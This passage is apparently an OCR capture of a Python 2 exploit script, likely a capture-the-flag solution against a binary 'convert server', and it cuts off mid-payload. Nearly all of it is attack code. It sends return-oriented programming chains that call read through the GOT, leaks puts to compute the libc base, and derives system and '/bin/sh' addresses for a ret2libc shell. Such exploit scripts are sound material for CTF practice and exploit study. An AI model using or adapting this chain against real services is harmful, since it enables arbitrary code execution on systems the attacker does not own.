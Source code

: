 ```python
s.send(pl)

pl = "1" + p64(0x00627468627468)
pl += "\x00"*3 + "\x90" + "\x00"*3
pl += p64(ret)
pl += p64(add_6pop)
pl += p64(0) #rbx
pl += p64(1) #rbp
pl += p64(read_got) #read_plt
s.send(pl)

pl = "1"
pl += p64(0x00627468627468)
pl += "\x00"*7 #pop_rdi
pl += p64(addr_save) #rsi - r14
pl += p64(0x30) #rdx
pl += p64(add_khoi2) # dia chi khoi thu 2 sau 6pop
pl += p64(ret) 
pl += p64(main) 
s.send(pl)

pl = "1"
pl += p64(0x00627468627468)
pl += "\x00"*7 #6pop tiep theo
pl += p64(0) 
pl += p64(0) 
pl += p64(0) 
pl += p64(0) 
pl += p64(pop_rdi_ret) #ret
s.send(pl)

pl = "1"
pl += p64(0x00627468627468)
pl += "\x00"*7 #pop_rdi
pl += p64(pop_rdi_ret) 
pl += p64(puts_got) 
pl += p64(puts_plt)
pl += p64(ret) 
pl += p64(main) 
s.send(pl)


pl = "0" + p64(0x00627468627468) + "abcdef1234567"
s.sendline(pl)
s.recvuntil("\n")

pl = p64(0)
s.send(pl)


# nhận giá trị trong put_got để tính base, system, binsh
puts_libc = u64(s.recv(6).ljust(8,"\x00"))
base = puts_libc-0x80aa0
system = base + 0x4f550
binsh = base + 0x1b3e1a
print ">> " + hex(puts_libc)
print "base >> " + hex(base)
print "system >> " + hex(system)
print "binsh >> " + hex(binsh)

s.recvuntil("Welcome to the convert server!\n")

pl = "1" + p64(0x00627468627468)
```